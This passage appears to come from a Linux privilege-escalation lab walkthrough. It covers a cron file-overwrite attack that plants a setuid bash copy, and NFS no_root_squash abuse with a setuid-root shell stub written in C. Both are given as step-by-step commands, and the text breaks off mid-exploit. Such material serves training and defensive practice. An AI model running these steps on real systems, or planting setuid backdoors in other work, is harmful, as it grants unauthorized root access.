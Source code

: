 
## Cron (File Overwrite)

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “overwrite.sh”
3. In command prompt type: `ls -l /usr/local/bin/overwrite.sh`
4. From the output, notice the file permissions.


**Exploitation**

1. In command prompt type:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh`
2. Wait 1 minute for the Bash script to execute.
3. In command prompt type: `/tmp/bash -p`
4. In command prompt type: `id`

![Cron-OverWrite](/Images/linux_privesc_arena/cron-overwrite.png)


## NFS Root Squashing

1. In command line type: `cat /etc/exports`
2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.

![NFS](/Images/linux_privesc_arena/nfs1.png)


**Exploitation**


**In Our Machine**
1. Open command prompt and type: `showmount -e $IP`
2. In command prompt type: `mkdir /tmp/1`
3. In command prompt type: `mount -o rw,vers=2 $IP:/tmp /tmp/1`
In command prompt type:
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c`
